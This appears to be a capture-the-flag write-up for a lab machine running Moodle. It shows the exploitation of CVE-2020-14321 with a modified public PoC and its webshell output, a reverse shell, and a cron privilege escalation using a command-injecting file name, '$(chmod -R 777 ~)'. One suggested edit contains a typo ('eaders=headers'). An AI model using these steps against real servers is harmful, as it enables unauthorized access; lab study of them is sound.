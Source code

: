 # Plotted LMS

A fairly hard room, largely due to the breadth of the enumeration and its numerous rabbit holes, plus some instability mixed with dickery in the foothold path.

1. A rust scan reveals four websites, 80, 873, 8820 and 9020. All show a default apache page
2. Using ffuf with directory wordlist medium on each, it reveals three sites: :873/rail, :8820/learn and :9020/moodle. The first two look to be custom built, but the last is a regular moodle instance.
3. Running moodlescan against the moodle url, reveals it is version 3.9 beta. This version is vulnerable to CVE-2020-14321, a authenticated remote code execution vulnerability.
4. The vuln requires the creds or cookie of a 'teacher'. Fortunately the site allows registeration, so I register a `test123:Test-123` user. Furthermore, there is a course 'teachers only' that allows self-enrollment, making the new user a teacher.

> The next bit was tricky. It took me four instances of the target VM and a lot of dickery to get the exploit working. Part of it was the author's countermeasures: any request without a referer header would respond with a rickroll message, breaking the script. But aside from that, the exploit itself seemed dependent on a very specific state - any messing about with moodle as I did trying to debug or enumerate would break the script flow, very annoying. In the end, the exact steps described following worked somewhat consistently.

5. On exploit-db, there is a reference impl for this vuln: https://www.exploit-db.com/exploits/50180. Instead of using that directly, I used the original repo referenced: https://github.com/HoangKien1020/CVE-2020-14321
6. Before running, this needs to be modified:
    - on line 9, this line: `headers={"Content-Type":"application/x-www-form-urlencoded"}` should be expanded to include a referer value, e.g. `headers={"Content-Type":"application/x-www-form-urlencoded","Referer": "http://10.10.94.67:9020/moodle/"}`
    - there are two uses of `session.get` in the script that dont specify headers, e.g. line 27~: `r=session.get(login_url,proxies=proxies)`. This should be changed to add the headers variable, e.g. `r=session.get(login_url,proxies=proxies,eaders=headers)`.
7. Running the script like so will hopefully result in output like the following:

    ```bash
    root@ip-10-10-242-204:~# python3 ./cve202014321.py -url http://10.10.94.67:9020/moodle -u test123 -p Test-123 -cmd=ls
                             ***CVE 2020 14321***
        How to use this PoC script
        Case 1. If you have vaid credentials:
        python3 cve202014321.py -u http://test.local:8080 -u teacher -p 1234 -cmd=dir
        Case 2. If you have valid cookie:
        python3 cve202014321.py -u http://test.local:8080 -cookie=37ov37abn9kv22gj7enred9bl7 -cmd=dir

    [+] Your target: http://10.10.94.67:9020/moodle
    [+] Logging in to teacher
    [+] Teacher logins successfully!
    [+] Privilege Escalation To Manager in the course Done!
    [+] Maybe RCE via install plugins!
    [+] Checking RCE ...
    [+] RCE link in here:
    http://10.10.94.67:9020/moodle/blocks/rce/lang/en/block_rce.php?cmd=ls
    block_rce.php

    ```
    
8. with the new webshell we can get a strong reverse shell. I used `https://github.com/NHAS/reverse_ssh` to get a full shell as www-data.
9. To pivot to the `plot_admin` user, there is a cronjob that runs every minute, executing a script called backup.py in the plot_admin user's home directory. The contents of this script are:

    ```python
    import os

    moodle_location = "/var/www/uploadedfiles/filedir/"
    backup_location = "/home/plot_admin/.moodle_backup/"

    os.system("/usr/bin/rm -rf " + backup_location + "*")

    for (root,dirs,files) in os.walk(moodle_location):
            for file in files:
                    os.system('/usr/bin/cp "' + root + '/' + file + '" ' + backup_location)
    ```
    
10. To exploit this, as we have write into `/var/www/uploadedfiles/filedir/`, we can create a file in there like `$(chmod -R 777 ~)`. This can be done with `touch \$\(chmod\ -R\ 777\ \~\)` in that folder. Within a minute, all files in plot_admin's home directory will be universally writable.
11. Next, adding `os.system("/path/to/revshell")` into backup.py (after removing the chmod file above, as it breaks the script) will get a reverse shell as plot_admin.
12. https://github.com/whotwagner/logrotten

